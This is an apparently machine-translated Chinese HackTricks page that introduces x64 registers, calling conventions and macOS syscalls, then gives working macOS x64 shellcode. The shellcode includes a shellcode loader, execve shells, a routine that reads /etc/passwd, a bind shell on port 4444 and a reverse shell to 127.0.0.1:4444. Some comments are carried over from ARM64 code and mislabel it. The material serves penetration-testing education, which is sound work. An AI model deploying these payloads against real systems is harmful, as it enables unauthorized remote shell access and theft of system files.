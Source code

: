 # x64简介

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在一家**网络安全公司**工作吗？想要在HackTricks中看到你的**公司广告**吗？或者你想要获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFT收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享你的黑客技巧。**

</details>

## **x64简介**

x64，也被称为x86-64，是一种主要用于桌面和服务器计算的64位处理器架构。它起源于由英特尔生产的x86架构，并在后来由AMD采用并命名为AMD64，是个人计算机和服务器中普遍使用的架构。

### **寄存器**

x64扩展了x86架构，具有16个通用寄存器，标记为`rax`，`rbx`，`rcx`，`rdx`，`rbp`，`rsp`，`rsi`，`rdi`和`r8`到`r15`。每个寄存器可以存储一个64位（8字节）的值。这些寄存器还具有32位、16位和8位的子寄存器，用于兼容性和特定任务。

1. **`rax`** - 传统上用于函数的**返回值**。
2. **`rbx`** - 经常用作内存操作的**基址寄存器**。
3. **`rcx`** - 常用于**循环计数器**。
4. **`rdx`** - 用于各种角色，包括扩展算术运算。
5. **`rbp`** - 栈帧的**基指针**。
6. **`rsp`** - **栈指针**，跟踪栈的顶部。
7. **`rsi`** 和 **`rdi`** - 用于字符串/内存操作中的**源**和**目的**索引。
8. **`r8`** 到 **`r15`** - 在x64中引入的额外通用寄存器。

### **调用约定**

x64的调用约定在操作系统之间有所不同。例如：

* **Windows**：前**四个参数**通过寄存器**`rcx`**，**`rdx`**，**`r8`**和**`r9`**传递。更多的参数被推送到栈上。返回值在**`rax`**中。
* **System V（通常用于类UNIX系统）**：前**六个整数或指针参数**通过寄存器**`rdi`**，**`rsi`**，**`rdx`**，**`rcx`**，**`r8`**和**`r9`**传递。返回值也在**`rax`**中。

如果函数有超过六个输入，则**其余的参数将被传递到栈上**。**RSP**，即栈指针，在任何调用发生之前必须是**16字节对齐**的，这意味着它指向的地址必须能够被16整除。这意味着通常我们需要确保在进行函数调用之前，我们的shellcode中的RSP被正确对齐。然而，在实践中，即使不满足这个要求，系统调用也经常能够正常工作。

### **常见指令**

x64指令具有丰富的指令集，保持与早期x86指令的兼容性并引入新指令。

* **`mov`**：将一个值从一个**寄存器**或**内存位置**移动到另一个寄存器或内存位置。
* 示例：`mov rax, rbx` — 将`rbx`中的值移动到`rax`中。
* **`push`** 和 **`pop`**：将值推送到/从**栈**中弹出。
* 示例：`push rax` — 将`rax`中的值推送到栈中。
* 示例：`pop rax` — 将栈顶的值弹出到`rax`中。
* **`add`** 和 **`sub`**：**加法**和**减法**操作。
* 示例：`add rax, rcx` — 将`rax`和`rcx`中的值相加，并将结果存储在`rax`中。
* **`mul`** 和 **`div`**：**乘法**和**除法**操作。注意：这些操作对操作数的使用有特定的行为。
* **`call`** 和 **`ret`**：用于**调用**和**从函数返回**。
* **`int`**：用于触发软件**中断**。例如，在32位x86 Linux中，`int 0x80`用于系统调用。
* **`cmp`**：比较两个值并根据结果设置CPU的标志位。
* 示例：`cmp rax, rdx` — 将`rax`与`rdx`进行比较。
* **`je`**，**`jne`**，**`jl`**，**`jge`**，...：**条件跳转**指令，根据先前的`cmp`或测试结果改变控制流。
* 示例：在`cmp rax, rdx`指令之后，`je label` — 如果`rax`等于`rdx`，则跳转到`label`。
* **`syscall`**：在某些x64系统（如现代Unix）中用于**系统调用**。
* **`sysenter`**：在某些平台上优化的**系统调用**指令。
### **函数序言**

1. **保存旧的基指针**: `push rbp`（保存调用者的基指针）
2. **将当前栈指针移动到基指针**: `mov rbp, rsp`（为当前函数设置新的基指针）
3. **在栈上为局部变量分配空间**: `sub rsp, <size>`（其中 `<size>` 是所需的字节数）

### **函数尾声**

1. **将当前基指针移动到栈指针**: `mov rsp, rbp`（释放局部变量）
2. **从栈中弹出旧的基指针**: `pop rbp`（恢复调用者的基指针）
3. **返回**: `ret`（将控制权返回给调用者）

## macOS

### 系统调用

有不同类别的系统调用，您可以在[**这里找到它们**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/osfmk/mach/i386/syscall\_sw.h)**:**
```c
#define SYSCALL_CLASS_NONE	0	/* Invalid */
#define SYSCALL_CLASS_MACH	1	/* Mach */
#define SYSCALL_CLASS_UNIX	2	/* Unix/BSD */
#define SYSCALL_CLASS_MDEP	3	/* Machine-dependent */
#define SYSCALL_CLASS_DIAG	4	/* Diagnostics */
#define SYSCALL_CLASS_IPC	5	/* Mach IPC */
```
然后，您可以在[**此网址**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master)中找到每个系统调用的编号：
```c
0	AUE_NULL	ALL	{ int nosys(void); }   { indirect syscall }
1	AUE_EXIT	ALL	{ void exit(int rval); }
2	AUE_FORK	ALL	{ int fork(void); }
3	AUE_NULL	ALL	{ user_ssize_t read(int fd, user_addr_t cbuf, user_size_t nbyte); }
4	AUE_NULL	ALL	{ user_ssize_t write(int fd, user_addr_t cbuf, user_size_t nbyte); }
5	AUE_OPEN_RWTC	ALL	{ int open(user_addr_t path, int flags, int mode); }
6	AUE_CLOSE	ALL	{ int close(int fd); }
7	AUE_WAIT4	ALL	{ int wait4(int pid, user_addr_t status, int options, user_addr_t rusage); }
8	AUE_NULL	ALL	{ int nosys(void); }   { old creat }
9	AUE_LINK	ALL	{ int link(user_addr_t path, user_addr_t link); }
10	AUE_UNLINK	ALL	{ int unlink(user_addr_t path); }
11	AUE_NULL	ALL	{ int nosys(void); }   { old execv }
12	AUE_CHDIR	ALL	{ int chdir(user_addr_t path); }
[...]
```
所以为了调用`open`系统调用（**5**），你需要将其添加为`0x2000000`。

因此，调用open的系统调用号将是`0x2000005`。

### Shellcode

编译方法：

{% code overflow="wrap" %}
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
{% endcode %}

提取字节：

{% code overflow="wrap" %}
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
{% endcode %}

<details>

<summary>用于测试shellcode的C代码</summary>
```c
// code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/loader.c
// gcc loader.c -o loader
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>

int (*sc)();

char shellcode[] = "<INSERT SHELLCODE HERE>";

int main(int argc, char **argv) {
printf("[>] Shellcode Length: %zd Bytes\n", strlen(shellcode));

void *ptr = mmap(0, 0x1000, PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE | MAP_JIT, -1, 0);

if (ptr == MAP_FAILED) {
perror("mmap");
exit(-1);
}
printf("[+] SUCCESS: mmap\n");
printf("    |-> Return = %p\n", ptr);

void *dst = memcpy(ptr, shellcode, sizeof(shellcode));
printf("[+] SUCCESS: memcpy\n");
printf("    |-> Return = %p\n", dst);

int status = mprotect(ptr, 0x1000, PROT_EXEC | PROT_READ);

if (status == -1) {
perror("mprotect");
exit(-1);
}
printf("[+] SUCCESS: mprotect\n");
printf("    |-> Return = %d\n", status);

printf("[>] Trying to execute shellcode...\n");

sc = ptr;
sc();

return 0;
}
```
</details>

#### Shell

从[**这里**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s)获取并解释。

{% tabs %}
{% tab title="使用adr" %}
```armasm
bits 64
global _main
_main:
call    r_cmd64
db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
xor     rdx, rdx          ; store null arg3
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% tab title="使用堆栈" %}
```armasm
bits 64
global _main

_main:
xor     rdx, rdx          ; zero our RDX
push    rdx               ; push NULL string terminator
mov     rbx, '/bin/zsh'   ; move the path into RBX
push    rbx               ; push the path, to the stack
mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% endtab %}
{% endtabs %}

#### 使用cat命令读取

目标是执行`execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`，因此第二个参数（x1）是一个参数数组（在内存中表示为地址的堆栈）。
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
push rsi   ; Add "/etc/passwd" to the stack (arg0)
push rdi   ; Add "/bin/cat" to the stack (arg1)

; Set in the 2nd argument of exec the addr of the array
mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

push    59      ; put 59 on the stack (execve syscall)
pop     rax     ; pop it to RAX
bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```
#### 使用sh调用命令

To invoke a command using the `sh` command, you can use the following syntax:

要使用`sh`命令调用命令，可以使用以下语法：

```sh
sh -c "command"
```

For example, if you want to execute the `ls` command using `sh`, you would run:

例如，如果你想使用`sh`执行`ls`命令，你可以运行：

```sh
sh -c "ls"
```

This will execute the `ls` command as if it were run directly from the command line.
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 32           ; Create space on the stack

; Argument array
lea rdi, [rel touch_command]
push rdi                      ; push &"touch /tmp/lalala"
lea rdi, [rel sh_c_option]
push rdi                      ; push &"-c"
lea rdi, [rel sh_path]
push rdi                      ; push &"/bin/sh"

; execve syscall
mov rsi, rsp                  ; rsi = pointer to argument array
xor rdx, rdx                  ; rdx = NULL (no env variables)
push    59                    ; put 59 on the stack (execve syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

_exit:
xor rdi, rdi                  ; Exit status code 0
push    1                     ; put 1 on the stack (exit syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```
#### 绑定 shell

从 [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) 获取的绑定 shell，在**端口 4444**上。
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xffffffffa3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; bind(host_sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x68
syscall

; listen(host_sockid, 2)
xor  rsi, rsi
mov  sil, 0x2
mov  rax, r8
mov  al, 0x6a
syscall

; accept(host_sockid, 0, 0)
xor  rsi, rsi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x1e
syscall

mov rdi, rax
mov sil, 0x3

dup2:
; dup2(client_sockid, 2)
;   -> dup2(client_sockid, 1)
;   -> dup2(client_sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
mov  rax, r8
mov  al, 0x3b
syscall
```
#### 反向 Shell

从[https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html)获取反向 Shell。反向 Shell 到 **127.0.0.1:4444**。
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xfeffff80a3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; connect(sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x62
syscall

xor rsi, rsi
mov sil, 0x3

dup2:
; dup2(sockid, 2)
;   -> dup2(sockid, 1)
;   -> dup2(sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x3b
syscall
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks 云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在一家 **网络安全公司** 工作吗？你想在 HackTricks 中看到你的 **公司广告**吗？或者你想获得 **PEASS 的最新版本或下载 HackTricks 的 PDF 版本**吗？请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family) 集合 - [**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获得 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass)，或者在 **Twitter** 上 **关注** 我 [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向** [**hacktricks 仓库**](https://github.com/carlospolop/hacktricks) **和** [**hacktricks-cloud 仓库**](https://github.com/carlospolop/hacktricks-cloud) **提交 PR 来分享你的黑客技巧。**

</details>
